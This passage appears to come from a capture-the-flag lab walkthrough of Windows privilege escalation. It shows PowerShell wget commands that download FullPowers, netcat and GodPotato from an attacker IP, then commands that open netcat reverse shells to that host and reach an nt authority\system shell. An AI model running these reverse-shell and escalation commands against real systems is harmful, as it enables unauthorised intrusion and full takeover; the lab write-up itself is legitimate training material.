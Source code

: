 
Seeing we our privileges were limited we would  need to try and regain our impersonation privileges. The tool (fullpowers)[https://github.com/itm4n/FullPowers] is designed to just this. So next up we download Fullpowers as well as a netcat binary onto the machine

```powershell
wget "http://10.10.14.91/FullPowers.exe" -outfile "FullPowers.exe"
wget "http://10.10.14.91/nc.exe" -outfile "nc.exe"
```

Next we run fullpowers to open a reverse shell to our machine. This reverse shell will then have the **ImpersonatePrivilege** permission

```powershell
.\FullPowers -c "C:\xampp\htdocs\nc.exe 10.10.14.91 445 -e cmd" -z -v
```

![Impersonation privilege](/assets/img/Visual/Visual_11.png)

So next up we need to download the [godpotato](https://github.com/BeichenDream/GodPotato) exploit to elevate our privileges to system 

```
wget "http://10.10.14.91/GodPotato-NET4.exe" -outfile "GodPotato-NET4.exe"
```

Then next up we run the GodPotato exploit. This will result in us impersonating a token as **nt authority\system**.

```powershell
C:\xampp\htdocs\GodPotato-NET4.exe -cmd "cmd /c C:\xampp\htdocs\nc.exe 10.10.14.91 446 -e cmd"
```
